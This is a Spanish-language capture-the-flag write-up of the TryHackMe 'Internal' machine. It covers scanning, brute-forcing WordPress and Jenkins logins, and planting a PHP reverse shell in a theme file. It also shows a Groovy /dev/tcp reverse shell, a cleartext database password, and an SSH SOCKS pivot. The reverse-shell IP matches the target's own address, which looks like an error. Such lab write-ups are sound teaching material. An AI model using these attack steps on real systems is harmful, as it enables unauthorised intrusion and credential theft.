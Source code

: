 # Resolviendo máquina Internal TryHackMe
1. **Modificar el archivo /etc/hosts**

       - IP internal.thm

2. **Nmap** 

       - sudo nmap -sV -sC -Pn -v 10.10.17.84 -o port_scan

3. **Uso de dirb**
 ````
---- Scanning URL: http://10.10.17.84/ ----
==> DIRECTORY: http://10.10.17.84/blog/
+ http://10.10.17.84/index.html (CODE:200|SIZE:10918)
==> DIRECTORY: http://10.10.17.84/javascript/
==> DIRECTORY: http://10.10.17.84/phpmyadmin/
+ http://10.10.17.84/server-status (CODE:403|SIZE:276)
==> DIRECTORY: http://10.10.17.84/wordpress/
 ````

4. **Escaneo en Wordpress**
 ````
[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://internal.thm/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://internal.thm/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://internal.thm/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 
[+] WordPress theme in use: twentyseventeen
 | Location: http://internal.thm/blog/wp-content/themes/twentyseventeen/
 | Last Updated: 2021-03-09T00:00:00.000Z
 | Readme: http://internal.thm/blog/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 2.6
 | Style URL: http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a f>
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'
  ````
5. **Fuerza bruta en Wordpress**

        - wpscan --url http://internal.thm/blog/wp-login.php --passwords /usr/share/wordlists/rockyou.txt --usernames admin --max-threads 50
        ````
        [!] Valid Combinations Found:
        | Username: admin, Password: *******
        Correo: admin@internal.thm
        ````
6. **Creamos una reverse shell en Wordpress**

        -  Vamos a los temas
        - Customize
        - Inyectamos en 404.php la reverse shell --> https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
        - Nos conectamos: http://10.10.17.84/wordpress/wp-content/themes/twentyseventeen/404.php
        - Estamos a la escucha: nc -lvp 4444
7. **Usuario phpmyadmin**

        - Encontramos un usuario pero no podemo acceder a su directorio. Seguimos buscando:
        - En /etc/phmyadmin encontramos unas credenciales:
                -- cat config-db.php
                
         ````
         <?php
        ##
        ## database access settings in php format
        ## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
        ## by /usr/sbin/dbconfig-generate-include
        ##
        ## by default this file is managed via ucf, so you shouldn't have to
        ## worry about manual changes being silently discarded.  *however*,
        ## you'll probably also want to edit the configuration file mentioned
        ## above too.
        ##
        $dbuser='phpmyadmin';
        $dbpass='B2Ud4fEOZmVq';
        ````
        
8.  **Accedemos y no se encuentra nada.**
9. **Tras una larga busqueda de versiones, exploits, etc. Encontramos en el directorio /opt un .txt con credenciales.**
        
        - aubreanna:*****

10. **Nos conectamos por SSH y nos encontramos con el archivo jenkins.txt:**
        
         Internal Jenkins service is running on 172.17.0.2:8080

11. **Creamos un proxy socks para ver que nos encontramos**
        . ssh -D "10101" -q -N -f aubreanna@10.10.17.84
        . Configuramos el proxy en firefox y nos conectamos.
        . Nos encontramos un login de jenkins.
        
12. **Realizamos un ataque de fuerza bruta contra el servicio**

        - proxychains hydra 172.17.0.2 -s 8080 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or >
        
        - Contraseña encontrada:
        
       ````
       [proxychains] Strict chain  ...  127.0.0.1:10101  ...  172.17.0.2:8080 [proxychains] Strict chain  ...  127.0.0.1:10101  ...  172.17.0.2:8080 [8080]            [http-post-form] host: 172.17.0.2
       login: admin   password: *******
       [STATUS] attack finished for 172.17.0.2 (valid pair found)
       1 of 1 target successfully completed, 1 valid password found
       ````
13. **Creamos una reverse shell en jenkins.**

        - Manage --> Script console
        - Groovy script:
     
       ````
       r = Runtime.getRuntime()
       p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.17.84/5555;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
       p.waitFor()
       ````


14. **Tenemos una shell como usuario jenkins.**

        - En el directorio /opt --> note.txt
        - root:*******

15. **Accedemos por ssh**

        - root.txt
        - Obtenemos la flag: ***********


